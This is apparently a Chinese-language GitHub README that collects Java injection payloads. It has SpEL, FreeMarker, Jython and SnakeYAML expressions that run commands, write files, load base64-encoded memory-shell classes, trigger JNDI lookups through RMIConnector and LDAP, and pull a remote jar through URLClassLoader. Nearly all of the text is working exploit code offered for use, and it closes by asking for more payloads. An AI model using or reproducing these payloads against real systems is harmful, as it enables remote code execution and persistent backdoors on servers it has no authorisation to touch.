 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()

加模板解析的payload
#{new java.lang.ProcessBuilder({'calc'}).start()}

可以回显时使用
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

可以打入内存马高版本Spring Core 受限
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}

使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}

## FreeMarker 
执行命令
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}

写文件
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}

读文件
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}

使用SPEL利用
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}

使用SPEL 进行JNDI
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}

使用SPEL 加载内存马
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}

使用Jython 
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

## YAML

ftp 可以换为HTTP 及其他支持协议
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]


各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
